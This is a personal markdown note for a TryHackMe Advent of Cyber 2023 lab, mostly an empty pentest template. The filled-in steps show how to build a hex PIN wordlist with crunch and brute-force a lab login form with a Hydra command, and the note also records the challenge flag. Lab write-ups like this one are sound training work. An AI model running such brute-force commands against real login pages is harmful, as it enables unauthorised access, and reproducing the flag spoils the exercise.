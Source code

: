 ```yaml
---
creation date: December 3rd 2023 (05:43 pm)
last modified date: December 3rd 2023 (05:43 pm)
aliases: []
tags: 🎌
---
```

 
Primary Categories: 
Secondary Categories:  
Links: 
# [[THM - AoC 2023 - [Day 3] Hydra is Coming to Town]]  


# Resolution summary
- Text
- Text

## Improved skills
- skill 1
- skill 2

## Used tools
- [[nmap]]
- 

---

# Information Gathering
Scanned all TCP ports:
```bash

```

Enumerated open TCP ports:
```bash

```

Enumerated top 200 UDP ports:
```bash

```

---

# Enumeration
## Port 


---

# Exploitation
## Name of the technique


---

# Lateral Movement to user
## Local Enumeration


## Lateral Movement vector


---

# Privilege Escalation
## Local Enumeration


## Privilege Escalation vector


---

# Steps

1. Got to site it gives `http://10.10.60.140:8000/pin.php`
2. Here we see a pin panel with the following character set with a `max length of 3`
```
0123456789ABCDEF
```

3. We want to create a custom list this can be done in a number of ways but we will just use [[Crunch]] like it suggests
```
crunch 3 3 0123456789ABCDEF -o pins.list
```

4. Now we need to see what its doing when we fail a pin / where its sending the code.
5. Open network tab by hitting F12 -> Network
6. Enter a pin and notice that we see its sending the pin itself to `login.php`
7. This is where we will send our brute force attempts
8. Lets get started with the brute force by using [[Hydra]]
```
hydra -L pins.list 10.10.60.140 -p '' http-post-form "/login.php:pin=^USER^:F=Access denied" -s 8000 -f
```

9. We get the following pin: `6F5`
10. Use that and we are in hitting a ew page `/control.php`
11. Hit `Unlock Door` and we get our code
```
THM{pin-code-brute-force}
```

---

# Trophy & Loot

## Credentials


## Scripts


## Task Answers

  
Using `crunch` and `hydra`, find the PIN code to access the control system and unlock the door. What is the flag?
```
THM{pin-code-brute-force}
```

If you have enjoyed this room please check out the [Password Attacks](https://tryhackme.com/room/passwordattacks) room.
```
Submit
```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


